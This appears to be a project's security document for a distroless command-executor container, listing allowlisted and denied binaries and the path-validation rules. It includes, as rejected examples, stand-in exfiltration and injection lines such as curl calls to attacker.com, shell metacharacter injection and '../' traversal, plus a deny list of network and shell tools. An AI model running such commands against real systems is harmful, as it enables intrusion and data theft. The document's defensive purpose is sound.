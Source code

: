 # Allowed Binaries in Kaiburr Executor Image

**Author:** Aditya R  
**Image:** `kaiburr-executor:dev`

## Overview

The executor container is built on **distroless** with only allowlisted binaries. No shell (`/bin/sh`, `/bin/bash`) is present, eliminating shell injection attacks.

## Allowlisted Binaries

All binaries are located at `/usr/bin/<binary>` for consistent path validation.

| Binary | Path | Purpose | Example |
|--------|------|---------|---------|
| `echo` | `/usr/bin/echo` | Print text | `echo "Hello World"` |
| `date` | `/usr/bin/date` | Show date/time | `date +%Y-%m-%d` |
| `uname` | `/usr/bin/uname` | System info | `uname -a` |
| `whoami` | `/usr/bin/whoami` | Current user | `whoami` |
| `id` | `/usr/bin/id` | User/group IDs | `id -u` |
| `uptime` | `/usr/bin/uptime` | System uptime | `uptime` |
| `printenv` | `/usr/bin/printenv` | Print env vars | `printenv PATH` |
| `env` | `/usr/bin/env` | Show environment | `env` |
| `pwd` | `/usr/bin/pwd` | Current directory | `pwd` |
| `hostname` | `/usr/bin/hostname` | Show hostname | `hostname` |

## Explicitly NOT Included

These binaries are intentionally excluded for security:

- **Shells**: `sh`, `bash`, `zsh`, `ash`, `dash`
- **File operations**: `rm`, `mv`, `cp`, `dd`, `cat`, `tee`
- **Network**: `curl`, `wget`, `nc`, `telnet`, `ssh`, `scp`
- **Privilege**: `sudo`, `su`, `chown`, `chmod`
- **Process**: `kill`, `pkill`, `killall`, `ps`, `top`
- **System**: `reboot`, `shutdown`, `systemctl`, `service`
- **Package managers**: `apt`, `yum`, `apk`, `dnf`
- **Container tools**: `docker`, `kubectl`, `crictl`, `podman`

## Path Validation

The API validates that commands use full paths:

```java
String expectedPath = "/usr/bin/" + command;
// Reject if actual path doesn't match
```

This prevents:
- `../../bin/bash` (path traversal)
- `./malicious-binary` (relative paths)
- `sh -c 'curl attacker.com'` (shell doesn't exist)

## Usage Examples

### Valid Commands

```bash
# Simple echo
Command: /usr/bin/echo
Args: ["Hello", "Kaiburr"]

# Date formatting
Command: /usr/bin/date
Args: ["+%Y-%m-%d"]

# System info
Command: /usr/bin/uname
Args: ["-a"]

# User identity
Command: /usr/bin/id
Args: []
```

### Invalid Commands (Rejected)

```bash
# Shell not present
Command: /bin/sh
Args: ["-c", "echo hello"]
# ❌ Binary not in allowlist

# Relative path
Command: ./echo
Args: ["hello"]
# ❌ Must use absolute path

# Denied binary
Command: /usr/bin/curl
Args: ["https://attacker.com"]
# ❌ curl not in image, not in allowlist

# Path traversal
Command: /usr/bin/../../bin/bash
Args: []
# ❌ Contains denied sequence "../"
```

## Building the Image

```bash
cd executor
docker build -t kaiburr-executor:dev .
```

Build output:
```
[+] Building 12.3s (11/11) FINISHED
 => [builder 1/5] FROM alpine:3.19
 => [builder 2/5] RUN apk add --no-cache coreutils busybox-extras
 => [builder 3/5] RUN cp /bin/echo /executor/usr/bin/echo && ...
 => [builder 4/5] RUN /executor/usr/bin/echo "Build OK" && ...
 => [stage-1 1/1] FROM gcr.io/distroless/static-debian12:nonroot
 => [stage-1 2/2] COPY --from=builder /executor/usr/bin /usr/bin
 => exporting to image
 => => naming to kaiburr-executor:dev
```

## Verifying the Image

```bash
# List files (requires debug image)
docker run --rm gcr.io/distroless/static-debian12:debug \
  ls -la /usr/bin

# Check user
docker run --rm kaiburr-executor:dev /usr/bin/id
# Output: uid=65532(nonroot) gid=65532(nonroot) groups=65532(nonroot)

# Test binary
docker run --rm kaiburr-executor:dev /usr/bin/echo "Test OK"
# Output: Test OK

# Verify no shell (should fail)
docker run --rm kaiburr-executor:dev /bin/sh -c "echo fail"
# Error: executable file not found
```

## Security Properties

### 1. No Shell Injection

Without a shell, injection attacks fail:
```bash
# Attacker tries: echo "test"; curl attacker.com
Command: /usr/bin/echo
Args: ["test;", "curl", "attacker.com"]
# ❌ Validator rejects ";" metacharacter
# Even if it passed, curl binary doesn't exist
```

### 2. No Path Traversal

Fixed paths prevent directory traversal:
```bash
# Attacker tries: ../../bin/bash
Command: /usr/bin/../../bin/bash
# ❌ Validator rejects "../" sequence
```

### 3. No Privilege Escalation

Running as `USER 65532` (nonroot) prevents:
- Binding to privileged ports (< 1024)
- Reading sensitive files (requires ownership)
- Modifying system files (read-only FS)

### 4. No Network Exfiltration

No network binaries + NetworkPolicy = no data exfiltration

### 5. No Persistence

Read-only root FS prevents:
- Writing backdoors
- Creating cron jobs
- Modifying binaries

## Adding New Binaries

To add a new allowlisted binary:

1. **Update Dockerfile** (builder stage):
   ```dockerfile
   RUN cp /usr/bin/newbinary /executor/usr/bin/newbinary
   ```

2. **Update command-policy.yaml**:
   ```yaml
   allowlist:
     binaries:
       - newbinary
   ```

3. **Update this document**

4. **Rebuild and test**:
   ```bash
   docker build -t kaiburr-executor:dev .
   docker run --rm kaiburr-executor:dev /usr/bin/newbinary --help
   ```

5. **Add integration test**:
   ```java
   @Test
   public void testNewBinary() {
       TaskExecution result = execute("newbinary", List.of("arg1"));
       assertThat(result.getExitCode()).isEqualTo(0);
   }
   ```

## References

- [Distroless Container Images](https://github.com/GoogleContainerTools/distroless)
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Docker Security Best Practices](https://docs.docker.com/develop/security-best-practices/)
